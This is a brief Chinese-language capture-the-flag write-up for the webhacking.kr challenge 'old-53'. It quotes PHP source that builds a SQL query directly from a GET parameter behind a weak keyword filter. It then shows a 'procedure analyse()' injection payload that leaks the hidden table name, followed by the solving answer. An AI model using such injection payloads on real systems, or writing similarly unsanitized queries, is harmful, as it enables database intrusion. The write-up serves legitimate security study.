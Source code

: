 # old-53_350

* 這一題一進去只看到 source code 
    ```php=
    $db = dbconnect();
  include "./tablename.php";
  if($_GET['answer'] == $hidden_table) solve(53);
  if(preg_match("/select|by/i",$_GET['val'])) exit("no hack");
  $result = mysqli_fetch_array(mysqli_query($db,"select a from $hidden_table where a={$_GET['val']}"));
  echo($result[0]);
    ```
* 看了一下程式碼，只要找到 table name 就可以過了
* 但是因為禁用 select 所以沒辦法用 union 相關的 payload
* 所以在查看了相關的 cheat sheet 尋找靈感時，我看到了一個非常眼熟的東東 
    `procedure analyse()`
* 這是[官方文件](https://www.docs4dev.com/docs/zh/mysql/5.7/reference/procedure-analyse.html)，簡單來說，這一題是直接輸出結果給我們，所以要找一個方法讓 result 吐出資料庫的結構，進而知道 hidden_table
* `?val=1%20procedure%20analyse()` 之後可以看到 `webhacking.chall53_755fdeb36d873dfdeb2b34487d50a805.a` 中間的就是 hidden_table 了
* 輸入 `?answer=chall53_755fdeb36d873dfdeb2b34487d50a805` 就可以過了


